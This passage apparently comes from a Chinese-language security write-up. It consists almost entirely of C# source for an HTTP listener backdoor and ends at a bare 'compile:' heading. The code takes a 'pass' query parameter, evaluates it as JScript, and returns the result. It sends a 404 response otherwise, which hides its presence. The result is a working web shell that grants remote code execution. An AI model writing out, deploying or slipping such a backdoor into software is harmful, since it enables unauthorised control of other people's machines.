 ```
                HttpListenerContext context = listener.GetContext();
                HttpListenerRequest request = context.Request;
                HttpListenerResponse response = context.Response;
                Stream stm = null ;
                string cmd=request.QueryString["pass"];
                Console.WriteLine(cmd);
                if(!string.IsNullOrEmpty(cmd))
                {
                    try
                    {
                        Microsoft.JScript.Vsa.VsaEngine vsaEngine = Microsoft.JScript.Vsa.VsaEngine.CreateEngine();
                        cmd = System.Text.Encoding.ASCII.GetString(System.Text.Encoding.UTF8.GetBytes(cmd));
                        object obj = Microsoft.JScript.Eval.JScriptEvaluate(cmd, vsaEngine);
                        byte[] data = System.Text.Encoding.UTF8.GetBytes((string) obj);           
                        response.StatusCode = 200;
                        response.ContentLength64 = data.Length;
                        stm = response.OutputStream;
                        stm.Write(data, 0, data.Length);
                    }
                    catch 
                    { 
                        response.StatusCode = 404; 
                    }
                    finally
                    {
                        if(stm!=null)
                        {
                            stm.Close();
                        }
                    }
                }
                else
                {
                    response.StatusCode = 404;
                    response.OutputStream.Close();
                }
                
            }
        }
        catch
        {
        }
    }
    }
}
```

编译：
